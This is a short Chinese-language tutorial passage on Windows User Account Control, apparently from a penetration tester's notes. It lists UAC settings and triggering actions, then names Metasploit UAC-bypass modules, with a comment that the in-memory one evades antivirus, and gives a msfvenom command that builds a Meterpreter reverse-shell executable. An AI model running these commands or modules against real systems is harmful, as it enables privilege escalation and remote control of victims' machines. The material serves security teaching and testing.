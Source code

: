     UAC默认设置  
    当第三方程序要使用高级别的权限时，会提示本地用户
3. 仅当应用尝试更改我的计算机时通知我

    与上一条设置要求相同，但是在提示用户时不降低桌面亮度
4. 从不提示

    当用户为系统管理员时，所有程序都会以最高权限运行

##### 触发UAC

​![image](assets/image-20241029164230-nu3yf3c.png)​

UAC需要授权的动作包括

配置Windows Update、增加或删除用户账户、改变用户的账户类型、改变UAC设置、用户帐户控制、安装ActiveX、安装或移除程序、安装设备驱动程序、设置家长控制、将文件移动或复制到Program Files或Windows目录、查看其他用户文件夹

​​

#### 美少妇的bypassuac模块

前提：在获取目标主机meterpreter shell且权限为普通用户权限的前提下提权(getsystem提权失败就可以考虑使用bypass去绕过)

##### MSF模块

```bash
exploit/windows/local/bypassuac                       //模块将通过进程注入，利用受信任的发布者证书绕过Windows UAC，它将为我们生成另一个关闭UAC的shell
exploit/windows/local/bypassuac_injection (内存注入)   //模块直接运行在内存的反射DLL中，不会接触目标机的硬盘，从而降低了被杀毒软件检测出来的概率
exploit/windows/local/bypassuac_eventvwr              //模块通过在当前用户配置单元下劫持注册表中的特殊键，在启动Windows fodhelper.exe应用程序时调用的自定义命令来绕过Windows 10 UAC
```

##### 步骤

进入msf，生成payload

```bash
msfvenom  -p windows/meterpreter/reverse_tcp lhost=192.168.124.128  lport=12345 -f exe >s.exe  
```

​![image](assets/image-20241028181208-1oljsw3.png)​
